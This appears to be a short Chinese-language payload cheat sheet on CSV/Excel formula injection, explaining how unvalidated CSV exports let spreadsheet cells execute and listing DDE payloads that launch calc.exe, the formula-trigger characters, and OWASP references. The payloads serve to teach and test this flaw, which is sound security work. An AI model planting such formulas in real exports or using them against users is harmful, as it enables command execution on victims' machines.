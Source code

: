 # CSV Excel公式注入
许多Web应用程序允许用户将诸如发票或者用户设置的模板等内容下载为CSV文件。许多用户使用Excel，Libre Office或者Open Office打开CSV文件。当一个Web应用程序没能正确验证CSV文件的内容时，将导致一个或多个单元格被执行。

## 攻击

使用动态数据交换的基本攻击：
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data

```

任何公式都可以以下列字符开始：
```
=
+
–
@
```

## 感谢
* https://owasp.org/index.php/CSV_Excel_Macro_Injection
* https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection
* https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/
